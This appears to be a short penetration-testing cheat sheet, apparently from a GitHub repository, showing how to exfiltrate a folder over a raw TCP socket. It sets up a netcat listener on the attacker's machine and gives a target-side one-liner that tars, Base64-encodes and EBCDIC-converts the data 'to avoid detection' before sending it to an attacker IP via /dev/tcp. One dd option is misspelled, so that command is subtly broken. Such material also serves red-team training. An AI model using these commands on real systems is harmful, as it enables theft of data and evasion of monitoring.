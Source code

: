 # Exfiltrate over TCP Socket with EBCDIC and Base64
##### Establish listener on attack machine and output to file.
```bash
nc -lnvp 80 > datafolder.tmp
```
##### From target, tar folder container efil data with Base64 & EBCDIC (to avoid detection) and redirect STDOUT to TCP socket.
```bash
tar zcf - /tmp/datafolder | base64 | dd conf=ebcdic > /dev/tcp/<Attack IP Address>/80
```
##### From attack machine, decode and extract archive.
```bash
dd conv=ascii if=/tmp/datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### References
[Base64](https://en.wikipedia.org/wiki/Base64)

[EBCDIC](https://en.wikipedia.org/wiki/EBCDIC)

[I/O Redirection](http://www.tldp.org/LDP/abs/html/io-redirection.html)

# Exfiltrate over SSH
[SSH](../../Services/SSH/README.md#Data-Exfiltration)